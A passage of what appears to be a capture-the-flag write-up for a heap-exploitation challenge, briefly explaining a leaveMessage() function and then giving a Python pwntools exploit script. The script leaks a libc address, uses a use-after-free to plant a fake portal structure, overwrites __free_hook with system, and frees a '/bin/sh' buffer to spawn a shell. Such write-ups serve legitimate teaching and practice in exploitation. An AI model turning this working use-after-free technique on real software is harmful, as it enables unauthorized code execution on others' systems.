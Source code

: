 ```m``` option calls ```leaveMessage()``` function, that, if ```now->msgSize``` is zero, asks for an integer ```N``` in input and sets ```now->msgSize``` equal to ```N*16```; in this case, it also calls ```malloc``` with that size and sets ```now->msg``` to the pointer returned by ```malloc```. At last, in both cases (```now->msgSize``` == 0, or not), it takes input from stdin in the buffer pointed by ```now->msg``` using ```fgets```:

    # 1.1.4: take the first portal from the third portal to read the libc leak
    # NOTE: usually, at this point the first_portal got some of its memory corrupted, and the year is zeroed
    corrupted_portal = 0
    take_portal(r, corrupted_portal, flush=False)
    _, msg, _ = read_description(r)

    # 1.2: clean-up by returning to the root portal and closing the third portal
    open_portal(r, root_portal)
    take_portal(r, root_portal)
    close_portal(r, third_portal)
    
    # 1.3: get libc base from the leak
    libc_leak = msg[:8]
    print(f"{libc_leak = }")
    libc_base = u64(libc_leak) - 0x1ed2e0
    print(f"{hex(libc_base) = }")

    # step 2: perform UAF to get an arbitrary "fake portal"
    # 2.1: open a portal with a reference to the portal that will be the fake one
    open_portal(r, first_portal)
    take_portal(r, first_portal)
    open_portal(r, third_portal)
    open_portal(r, root_portal)
    take_portal(r, root_portal)

    # 2.2: open another portal with the same reference
    open_portal(r, second_portal)
    take_portal(r, second_portal)
    open_portal(r, third_portal)
    open_portal(r, root_portal)
    # 2.2.1: make a msg with b'/bin/sh\x00' to prepare for the free hook
    leave_message(r, 1, b'/bin/sh\x00')
    # 2.2.2: free the referenced portal to trigger UAF
    close_portal(r, third_portal)
    take_portal(r, root_portal)

    # 2.3: perform UAF by allocating a message of the same size of a portal ("first-fit": 16 * 4)
    target = libc_base + libc.symbols['__free_hook']
    fake_portal = FakePortal(third_portal, [], 9, target)
    fake_portal_raw = fake_portal.dump()
    print(f"{fake_portal_raw.hex() = }")
    leave_message(r, 4, fake_portal_raw)

    # step 3: use the fake portal for arbitrary write on __free_hook with system function
    # NOTE: msgSize has been initialized non-zero, so it will not be asked as input
    r.sendline()
    take_portal(r, first_portal)
    take_portal(r, third_portal)
    hook = libc_base + libc.symbols['system']
    leave_message(r, 0, p64(hook))

    # step 4: free a portal with b'/bin/sh\x00' as msg to get the shell!
    # NOTE: if you have timeout with recvuntil, do it manually, by closing second_portal
    r.interactive()
    """
    open_portal(r, root_portal)
    take_portal(r, root_portal)
    close_portal(r, second_portal)

    r.interactive()
    """
```